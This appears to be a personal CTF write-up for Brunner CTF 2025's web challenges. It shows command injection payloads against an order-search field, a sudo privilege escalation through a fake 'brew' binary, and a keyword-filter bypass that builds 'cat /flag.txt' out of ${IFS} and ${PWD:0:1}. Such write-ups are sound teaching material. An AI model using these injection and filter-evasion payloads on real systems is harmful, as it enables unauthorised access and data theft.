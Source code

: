 ```yaml
---
date : '2025-08-23T22:39:33+03:00'
draft : false
title : 'Brunner CTF 2025'
description: "Writeup for Brunner CTF 2025 where i solved a web challenge, pwn challenge, 2 Boot2Root and some easy/medium misc challenges"
tags:
- web
---
```

# Web
## Caffeine (User)
While testing the `Check order status` found that it's just grep i right if it matches whatever like a customer name or coffee type or order id so i tried doing command injection AND WALLA `Lattee;ls` gave me everything then made `Lattee; cat user.txt` which had the Flag
## Caffeine (Root)
This was more challenging it had the flag at `/root/root.txt` which needed from me to find a privilege escalation way to read it.
When i did `sudo -l` i found that i can use /usr/local/bin/brew with sudo so why not i did it and found that it was a fake brew that i can just do 
```bash
Latte;sudo /usr/local/bin/brew /root/root.txt
``` 
And catched it.
![img](p1.png)
## Baking Bad
![img](p2.png)
command injection with many strings are banned like `cat`, `/`, `-`, `printf ` with space and many others, but i found that i can use `$`, `{}`, `:`, `.`, `=`,   and that was enough :).
first i found  that i can use env so i thought of taking any path in the env and take from it the `/` and use it my way
```bash
a;env 
```

And here we are
```bash
a;ls${IFS}${PWD:0:1} # To test that i really can use the slash now
a;f=ca;l=t;$f$l${IFS}${PWD:0:1}flag.txt # which is just cat `/flat.txt`
```

